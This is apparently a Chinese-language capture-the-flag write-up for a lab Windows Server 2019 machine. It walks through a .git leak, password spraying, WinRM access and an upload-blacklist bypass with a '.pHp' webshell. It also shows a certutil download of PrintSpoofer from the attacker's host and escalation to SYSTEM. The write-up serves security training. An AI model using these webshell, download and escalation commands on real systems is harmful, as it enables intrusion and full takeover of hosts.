




# 11S


# 11S

## 端口扫描

```python
(base) ┌──(root㉿kali)-[/tmp]
└─# rustscan -a 192.168.23.133 --ulimit 5000 -- -sV -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Open ports, closed hearts.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.23.133:80
Open 192.168.23.133:445
Open 192.168.23.133:135
Open 192.168.23.133:139
Open 192.168.23.133:5985
Open 192.168.23.133:8080
Open 192.168.23.133:47001
Open 192.168.23.133:49664
Open 192.168.23.133:49665
Open 192.168.23.133:49666
Open 192.168.23.133:49667
Open 192.168.23.133:49668
Open 192.168.23.133:49670
Open 192.168.23.133:49673
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -A" on ip 192.168.23.133
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-18 23:54 CST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 23:54
Completed NSE at 23:54, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 23:54
Completed NSE at 23:54, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 23:54
Completed NSE at 23:54, 0.00s elapsed
Initiating ARP Ping Scan at 23:54
Scanning 192.168.23.133 [1 port]
Completed ARP Ping Scan at 23:54, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 23:54
Completed Parallel DNS resolution of 1 host. at 23:54, 0.07s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 23:54
Scanning 192.168.23.133 [14 ports]
Discovered open port 135/tcp on 192.168.23.133
Discovered open port 8080/tcp on 192.168.23.133
Discovered open port 139/tcp on 192.168.23.133
Discovered open port 80/tcp on 192.168.23.133
Discovered open port 445/tcp on 192.168.23.133
Discovered open port 49668/tcp on 192.168.23.133
Discovered open port 49665/tcp on 192.168.23.133
Discovered open port 47001/tcp on 192.168.23.133
Discovered open port 49666/tcp on 192.168.23.133
Discovered open port 49670/tcp on 192.168.23.133
Discovered open port 49673/tcp on 192.168.23.133
Discovered open port 5985/tcp on 192.168.23.133
Discovered open port 49667/tcp on 192.168.23.133
Discovered open port 49664/tcp on 192.168.23.133
Completed SYN Stealth Scan at 23:54, 0.03s elapsed (14 total ports)
Initiating Service scan at 23:54
Scanning 14 services on 192.168.23.133
Service scan Timing: About 57.14% done; ETC: 23:55 (0:00:41 remaining)
Completed Service scan at 23:55, 53.57s elapsed (14 services on 1 host)
Initiating OS detection (try #1) against 192.168.23.133
NSE: Script scanning 192.168.23.133.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 23:55
Completed NSE at 23:55, 6.67s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 23:55
Completed NSE at 23:55, 0.03s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 23:55
Completed NSE at 23:55, 0.00s elapsed
Nmap scan report for 192.168.23.133
Host is up, received arp-response (0.00054s latency).
Scanned at 2026-07-18 23:54:11 CST for 61s

PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
135/tcp   open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 128
5985/tcp  open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http          syn-ack ttl 128 Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02)
|_http-open-proxy: Proxy might be redirecting requests
| http-git: 
|   192.168.23.133:8080/.git/
|     Git repository found!
|     .git/COMMIT_EDITMSG matched patterns 'passw'
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Initial website deploy & author: kaada & TODO:change default...
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
47001/tcp open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 00:0C:29:26:F5:D2 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 2019
OS details: Microsoft Windows Server 2019
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/18%OT=80%CT=%CU=35042%PV=Y%DS=1%DC=D%G=N%M=000C29
OS:%TM=6A5BA1E0%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=I%CI=I%II
OS:=I%SS=S%TS=U)OPS(O1=M5B4NW8NNS%O2=M5B4NW8NNS%O3=M5B4NW8%O4=M5B4NW8NNS%O5
OS:=M5B4NW8NNS%O6=M5B4NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF
OS:70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M5B4NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y
OS:%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0
OS:%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=80%CD=Z)

Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| nbstat: NetBIOS name: WIN-CO8A2CNP250, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:26:f5:d2 (VMware)
| Names:
|   WIN-CO8A2CNP250<20>  Flags: <unique><active>
|   WIN-CO8A2CNP250<00>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   00:0c:29:26:f5:d2:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 12908/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 39576/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44384/udp): CLEAN (Failed to receive data)
|   Check 4 (port 37980/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-07-18T15:55:07
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.54 ms 192.168.23.133

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 23:55
Completed NSE at 23:55, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 23:55
Completed NSE at 23:55, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 23:55
Completed NSE at 23:55, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.46 seconds
           Raw packets sent: 31 (2.062KB) | Rcvd: 31 (1.922KB)
```

## 8080/tcp

### Git 泄露分析

目录扫描发现 `.git` 目录泄露。

```python
(base) ┌──(root㉿kali)-[/tmp]
└─# gobuster dir -u http://192.168.23.133:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt,zip,bak,js,py,sh,jsp,ps1 -b 404,403 -t 50 -k
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.23.133:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,js,sh,zip,bak,py,jsp,ps1,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git                 (Status: 301) [Size: 240] [--> http://192.168.23.133:8080/.git/]
/.git/HEAD            (Status: 200) [Size: 23]
/.git/config          (Status: 200) [Size: 136]
/.git/index           (Status: 200) [Size: 137]
/Index.php            (Status: 200) [Size: 16]
/index.php            (Status: 200) [Size: 16]
/index.php            (Status: 200) [Size: 16]
Progress: 52261 / 52261 (100.00%)
===============================================================
Finished
===============================================================
```

使用 git-dumper 还原出仓库信息

```python
git-dumper http://192.168.23.133:8080/.git/ /tmp/energy-git
```



 获取完整提交信息

```python
(base) ┌──(root㉿kali)-[/tmp/energy-git]
└─# git show -s --format=fuller HEAD
commit 860d15fe084d8cdbeb36064d40cda570810296e5 (HEAD -> master)
Author:     kaada <kaada@11s.dsz>
AuthorDate: Sun Jul 12 04:47:51 2026 -0400
Commit:     kaada <kaada@11s.dsz>
CommitDate: Sun Jul 12 04:47:51 2026 -0400

    Initial website deploy & author: kaada & TODO:change default password before release
```

从这段信息可以得到两个有用的信息：

- 作者用户名是 `kaada`，并且就是 Windows 本地用户。
- commit 信息里出现 `TODO: change default password before release`，说明默认密码没有修改，后续应该优先尝试弱口令或常见默认口令。

### SMB 枚举与弱口令验证

```python
crackmapexec smb 192.168.23.133 -u kaada -p rockyou-10000.txt --local-auth 
```



拿到凭证 kaada:Password1，该账号可以访问 SMB，也可以通过 WinRM 登录。

SMB 共享枚举发现一个可读共享：

```python
(base) ┌──(root㉿kali)-[~]
└─# smbclient //192.168.23.133/public -U kaada

Password for [WORKGROUP\kaada]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 19 00:25:43 2026
  ..                                  D        0  Sun Jul 19 00:25:43 2026
  hello.txt                           A       15  Sun Jul 12 23:24:30 2026
  README-en.txt                       A      376  Sun Jul 12 23:24:44 2026
  README-zh.txt                       A      172  Sun Jul 12 23:24:37 2026

                10401279 blocks of size 4096. 6838621 blocks available
smb: \> pwd
Current directory is \\192.168.23.133\public\
smb: \> get README-en.txt
getting file \README-en.txt of size 376 as README-en.txt (122.4 KiloBytes/sec) (average 122.4 KiloBytes/sec)
smb: \> get README-zh.txt
getting file \README-zh.txt of size 172 as README-zh.txt (56.0 KiloBytes/sec) (average 89.2 KiloBytes/sec)
```

拿到一个提示：靶机上还有一个内部临时文件中转服务，并且该服务只允许本机访问。由于我们已经有 WinRM 权限，可以从靶机本机请求 `127.0.0.1`，这就把原本外部不可访问的服务变成了可利用目标。

```python
(base) ┌──(root㉿kali)-[~]
└─# cat README-en.txt
NOTICE (Internal Draft  Do Not Distribute)

An internal temporary file relay service is currently in pilot operation.
Development is being accelerated ahead of the planned production rollout.
Access at this stage is restricted to localhost only.

If this file is found on any unauthorized device, please report it to the
operations team immediately.

-- MazeSec Internal Ops
                              
```

通过 WinRM 执行命令，确认当前身份：

```python
(base) ┌──(root㉿kali)-[~/webtools/dictionary]
└─# evil-winrm -i 192.168.23.133 -u 'kaada' -p 'Password1'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\kaada\Documents> whoami
win-co8a2cnp250\kaada
*Evil-WinRM* PS C:\Users\kaada\Documents> 

```

查看权限

```python
*Evil-WinRM* PS C:\Users\kaada\Desktop> whoami /all

用户信息
----------------

用户名                SID
===================== ==============================================
win-co8a2cnp250\kaada S-1-5-21-4118298987-2297851901-1776050650-1000


组信息
-----------------

组名                                   类型   SID          属性
====================================== ====== ============ ==============================
Everyone                               已知组 S-1-1-0      必需的组, 启用于默认, 启用的组
BUILTIN\Remote Management Users        别名   S-1-5-32-580 必需的组, 启用于默认, 启用的组
BUILTIN\Users                          别名   S-1-5-32-545 必需的组, 启用于默认, 启用的组
NT AUTHORITY\NETWORK                   已知组 S-1-5-2      必需的组, 启用于默认, 启用的组
NT AUTHORITY\Authenticated Users       已知组 S-1-5-11     必需的组, 启用于默认, 启用的组
NT AUTHORITY\This Organization         已知组 S-1-5-15     必需的组, 启用于默认, 启用的组
NT AUTHORITY\本地帐户                  已知组 S-1-5-113    必需的组, 启用于默认, 启用的组
NT AUTHORITY\NTLM Authentication       已知组 S-1-5-64-10  必需的组, 启用于默认, 启用的组
Mandatory Label\Medium Mandatory Level 标签   S-1-16-8192


特权信息
----------------------

特权名                        描述           状态
============================= ============== ======
SeChangeNotifyPrivilege       绕过遍历检查   已启用
SeIncreaseWorkingSetPrivilege 增加进程工作集 已启用
```

获取 user.txt

```python
*Evil-WinRM* PS C:\Users\kaada\Desktop> ls


    目录: C:\Users\kaada\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/13/2026  12:26 AM             46 user.txt


*Evil-WinRM* PS C:\Users\kaada\Desktop> cat user.txt
flag{user-51a7cf02f9dc6b536b2423057b864b3d}
*Evil-WinRM* PS C:\Users\kaada\Desktop> 
```

## 提权

发现有 C:\inetpub\wwwroot 目录，该目录下存在一套 PHP 上传服务：

```python
*Evil-WinRM* PS C:\inetpub\wwwroot> dir


    目录: C:\inetpub\wwwroot


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/19/2026  12:25 AM                uploads
-a----        7/13/2026   3:25 PM           4830 index.php
-a----        7/13/2026  12:07 AM             19 info.php
-a----        7/13/2026   3:25 PM           2809 upload.php
-a----        7/13/2026  12:13 AM            265 web.config


*Evil-WinRM* PS C:\inetpub\wwwroot> 
```

外部直接访问不到，但是通过 WinRM 在靶机本机访问：

```python
*Evil-WinRM* PS C:\inetpub\wwwroot> Invoke-WebRequest -UseBasicParsing http://127.0.0.1/


StatusCode        : 200
StatusDescription : OK
Content           : <!DOCTYPE html>
                    <html lang="zh-CN">
                    <head>
                    <meta charset="UTF-8">
                    <title>内部文件中转站</title>
                    <style>
                    *{margin:0;padding:0;box-sizing:border-box}
                    body{font-family:-apple-system,"Segoe UI","PingFang ...
RawContent        : HTTP/1.1 200 OK
                    Content-Length: 3892
                    Content-Type: text/html; charset=UTF-8
                    Date: Sun, 19 Jul 2026 15:21:54 GMT
                    Server: Microsoft-IIS/10.0
                    X-Powered-By: PHP/5.6.9

                    <!DOCTYPE html>
                    <html lang="...
Forms             :
Headers           : {[Content-Length, 3892], [Content-Type, text/html; charset=UTF-8], [Date, Sun, 19 Jul 2026 15:21:54 GMT], [Server, Microsoft-IIS/10.0]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        :
RawContentLength  : 3892

```

审计一下 upload.php，关键代码如下：

```python
<?php
$uploadDir = dirname(__FILE__) . '/uploads/';

$ok = false;
$message = '';
$path = '';

$blacklist = array('php', 'php3', 'php4', 'php5', 'phtml', 'pht', 'phps');
$illegal = '/[\\\\\/\*\?"<>\|]/';

if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
    $message = '请求方式错误';
} elseif (!isset($_FILES['file']) || $_FILES['file']['error'] !== UPLOAD_ERR_OK) {
    $message = '未接收到文件或上传中断';
} else {
    $name = $_FILES['file']['name'];
    $tmp = $_FILES['file']['tmp_name'];

    if (preg_match($illegal, $name)) {
        $message = '文件名包含非法字符';
    } elseif (in_array(pathinfo($name, PATHINFO_EXTENSION), $blacklist, true)) {
        $message = '不允许的文件类型';
    } elseif (!is_uploaded_file($tmp)) {
        $message = '非法的上传来源';
    } elseif (!move_uploaded_file($tmp, $uploadDir . $name)) {
        $message = '文件保存失败，请检查目录权限';
    } else {
        $ok = true;
        $path = '/uploads/' . $name;
    }
}
?>
```

审计发现可以通过 `.pHp`​ 进行绕过。Windows/IIS/PHP 对 `.pHp` 这类扩展仍可执行。

然后上传一个 webshell

```python
<?php system($_GET["x"]); ?>
```

‍

```python
$p="$env:TEMP\shell.pHp"
Set-Content -Path $p -Value '<?php system($_GET["x"]); ?>' -Encoding ASCII
curl.exe -s -F "file=@$p;filename=shell.pHp" http://127.0.0.1/upload.php
```



验证一下，发现变成了 iis apppool\defaultapppool

```python
*Evil-WinRM* PS C:\inetpub\wwwroot> Invoke-WebRequest -UseBasicParsing "http://127.0.0.1/uploads/shell.pHp?x=whoami"


StatusCode        : 200
StatusDescription : OK
Content           : iis apppool\defaultapppool

RawContent        : HTTP/1.1 200 OK
                    Content-Length: 28
                    Content-Type: text/html; charset=UTF-8
                    Date: Sun, 19 Jul 2026 15:38:35 GMT
                    Server: Microsoft-IIS/10.0
                    X-Powered-By: PHP/5.6.9

                    iis apppool\defaultapppool

Forms             :
Headers           : {[Content-Length, 28], [Content-Type, text/html; charset=UTF-8], [Date, Sun, 19 Jul 2026 15:38:35 GMT], [Server, Microsoft-IIS/10.0]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        :
RawContentLength  : 28
```

执行一下 `whoami /all`

```python
*Evil-WinRM* PS C:\inetpub\wwwroot> $u = "http://127.0.0.1/uploads/shell.pHp?x=whoami%20%2Fall"; $wc = New-Object System.Net.WebClient; $b = $wc.DownloadData($u); $t = [System.Text.Encoding]::GetEncoding(936).GetString($b); $t | Out-File -FilePath "$env:TEMP\whoami-all.txt" -Encoding UTF8; $t

用户信息
----------------

用户名                     SID
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


组信息
-----------------

组名                                 类型          SID          属性
==================================== ============= ============ ==============================
Mandatory Label\High Mandatory Level 标签          S-1-16-12288
Everyone                             已知组        S-1-1-0      必需的组, 启用于默认, 启用的组
BUILTIN\Users                        别名          S-1-5-32-545 必需的组, 启用于默认, 启用的组
NT AUTHORITY\SERVICE                 已知组        S-1-5-6      必需的组, 启用于默认, 启用的组
CONSOLE LOGON                        已知组        S-1-2-1      必需的组, 启用于默认, 启用的组
NT AUTHORITY\Authenticated Users     已知组        S-1-5-11     必需的组, 启用于默认, 启用的组
NT AUTHORITY\This Organization       已知组        S-1-5-15     必需的组, 启用于默认, 启用的组
BUILTIN\IIS_IUSRS                    别名          S-1-5-32-568 必需的组, 启用于默认, 启用的组
LOCAL                                已知组        S-1-2-0      必需的组, 启用于默认, 启用的组
                                     未知 SID type S-1-5-82-0   必需的组, 启用于默认, 启用的组


特权信息
----------------------

特权名                        描述                 状态
============================= ==================== ======
SeAssignPrimaryTokenPrivilege 替换一个进程级令牌   已禁用
SeIncreaseQuotaPrivilege      为进程调整内存配额   已禁用
SeAuditPrivilege              生成安全审核         已禁用
SeChangeNotifyPrivilege       绕过遍历检查         已启用
SeImpersonatePrivilege        身份验证后模拟客户端 已启用
SeCreateGlobalPrivilege       创建全局对象         已启用
SeIncreaseWorkingSetPrivilege 增加进程工作集       已禁用

*Evil-WinRM* PS C:\inetpub\wwwroot> 
```

这里最关键的是：

```
 SeImpersonatePrivilege Enabled
```

`SeImpersonatePrivilege` 是 Windows 服务账号常见提权点。常见利用方式是通过 Potato 系列工具触发高权限令牌模拟，再创建 SYSTEM 进程。

本题环境是 Windows Server 2019 / Build 17763，`PrintSpoofer` 可以利用该权限创建 SYSTEM 进程，因此选择它作为提权工具。

将工具传到靶机中

```
 /root/webtools/windows/PLtools-main/PrintSpoofer64.exe
```

先在 Kali 上开启临时 HTTP 服务，供靶机下载：

```
 cd /root/webtools/windows/PLtools-main
 python3 -m http.server 8001 --bind 192.168.23.145
```

通过 webshell 让靶机下载工具到可写目录：

```
$cmd = 'certutil -urlcache -split -f http://192.168.23.145:8001/PrintSpoofer64.exe C:\inetpub\wwwroot\uploads\PrintSpoofer64.exe'; $uri = 'http://127.0.0.1/uploads/shell.pHp?x=' + [Uri]::EscapeDataString($cmd); $r = Invoke-WebRequest -UseBasicParsing -Uri $uri; $r.StatusCode; Test-Path 'C:\inetpub\wwwroot\uploads\PrintSpoofer64.exe'

```

```python
*Evil-WinRM* PS C:\inetpub\wwwroot> $cmd = 'certutil -urlcache -split -f http://192.168.23.145:8001/PrintSpoofer64.exe C:\inetpub\wwwroot\uploads\PrintSpoofer64.exe'; $uri = 'http://127.0.0.1/uploads/shell.pHp?x=' + [Uri]::EscapeDataString($cmd); $r = Invoke-WebRequest -UseBasicParsing -Uri $uri; $r.StatusCode; Test-Path 'C:\inetpub\wwwroot\uploads\PrintSpoofer64.exe'
200
True
```

执行提权命令：

```python
C:\inetpub\wwwroot\uploads\PrintSpoofer64.exe -c "cmd /c whoami > C:\inetpub\wwwroot\uploads\who.txt & type C:\Users\Administrator\Desktop\root.txt > C:\inetpub\wwwroot\uploads\r.txt"
```

通过 WebShell 执行

```python
*Evil-WinRM* PS C:\inetpub\wwwroot> $cmd = 'C:\inetpub\wwwroot\uploads\PrintSpoofer64.exe -c "cmd /c whoami > C:\inetpub\wwwroot\uploads\who.txt & type C:\Users\Administrator\Desktop\root.txt > C:\inetpub\wwwroot\uploads\r.txt"'; $url = 'http://127.0.0.1/uploads/shell.pHp?x=' + [Uri]::EscapeDataString($cmd); $r = Invoke-WebRequest -UseBasicParsing -Uri $url; $r.StatusCode
200
*Evil-WinRM* PS C:\inetpub\wwwroot> 
```

读取 root flag

```python
*Evil-WinRM* PS C:\inetpub\wwwroot> type C:\inetpub\wwwroot\uploads\who.txt
nt authority\system
*Evil-WinRM* PS C:\inetpub\wwwroot> type C:\inetpub\wwwroot\uploads\r.txt
flag{root-58c1c19e8389524ba790c691541cb5b0}
*Evil-WinRM* PS C:\inetpub\wwwroot> 
```



## 总结

1. 扫描发现 `8080`​ 为 Apache + PHP，且存在 `.git` 泄露。
2. 从 Git commit 中得到用户名 `kaada` 和默认密码未修改提示。
3. 使用 `kaada:Password1` 成功登录 SMB 和 WinRM。
4. 通过 WinRM 读取 `C:\Users\kaada\Desktop\user.txt`。
5. SMB 共享 README 提示存在 localhost-only 的内部文件中转站。
6. 通过 WinRM 请求 `http://127.0.0.1/`，发现 IIS/PHP 上传服务。
7. 审计 `upload.php`，发现通过扩展名进行绕过。
8. 上传 `shell.pHp`​，绕过黑名单并获得 `iis apppool\defaultapppool` 命令执行。
9. 枚举发现 `DefaultAppPool`​ 拥有 `SeImpersonatePrivilege`。
10. 上传并执行 `PrintSpoofer64.exe`，创建 SYSTEM 进程。
11. 以 SYSTEM 读取 `C:\Users\Administrator\Desktop\root.txt`。

flag：

> **flag{user-51a7cf02f9dc6b536b2423057b864b3d}**
>
> **flag{root-58c1c19e8389524ba790c691541cb5b0}**

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/11s/  

